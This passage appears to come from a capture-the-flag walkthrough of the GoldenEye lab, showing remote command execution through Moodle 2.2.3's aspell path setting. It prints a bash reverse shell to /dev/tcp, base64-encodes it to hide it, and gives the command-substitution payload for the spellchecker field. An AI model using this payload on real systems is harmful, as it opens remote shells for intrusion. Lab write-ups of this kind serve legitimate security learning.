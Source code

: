 ![](/assets/images/goldeneye/screenshot-15.png)

## Exploitation
### Remote Command Execution

This version 2.2.3 of moodle allows an authenticated user to define spellcheck settings via the web interface. The user can update the spellcheck mechanism to point to a system-installed aspell binary. By updating the path for the spellchecker to an arbitrary command, an attacker can run arbitrary commands in the context of the web application upon spellchecking requests.

To exploit this, we need to locate ourselves in the following path:

```console
Site administration -> Server -> System paths
```

Then I base64 encoded the bash reverse shell to obfuscate it.

```console
root@kali:~$ echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.179.1/443 0>&1"' | base64 | tr -d '\n'
L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xNzkuMS80NDMgMD4mMSIK
```

In the **Path to aspell** box we enter the following instruction, and save the changes.

```console
$(echo 'L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xNzkuMS80NDMgMD4mMSIK' | base64 -d | bash)
```
